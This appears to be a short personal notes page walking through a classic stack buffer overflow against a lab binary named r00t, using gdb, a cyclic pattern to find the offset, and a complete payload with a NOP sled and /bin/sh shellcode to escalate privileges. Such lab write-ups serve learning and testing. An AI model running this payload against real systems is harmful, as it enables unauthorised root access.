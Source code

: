 ```yaml
---
title: "Buffer Overflow"
permalink: /Buffer_Overflow/
layout: single
author-profile: true
---
```


You need to know:
- Size of the buffer
- Memory address of ESP
- Shellcode

Generate a pattern of 300 characters: https://github.com/Svenito/exploit-pattern
`./pattern create 300`

Copy and paste as input into the binary while running the program in gdb

This comes us with segmentation fault as it wrote into memory which shouldn't be written into.
Take the memory address and paste into pattern.py, this tells you the size of the buffer
`./pattern offset 0x6a413969`

While still in gd, to get the location of the ESP, run: 
`i r esp`    

Now get shellcode : www.shell-storm.org/shellcode

With shellcode in hand, I now have the three components I need to craft my buffer overflow. My template looks like this now:
`(Binary)(Print ‘A’s to the size of buffer until EIP)+(ESP Location in reverse) + (NOP sled) + (Shellcode)`
The payload ends up being this:
```
./r00t $(python -c ‘print “A”*268 + “\x70\xfb\xff\xbf” + “\x90” * 10 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80″‘)
```
Run payload and privileges are escalated.
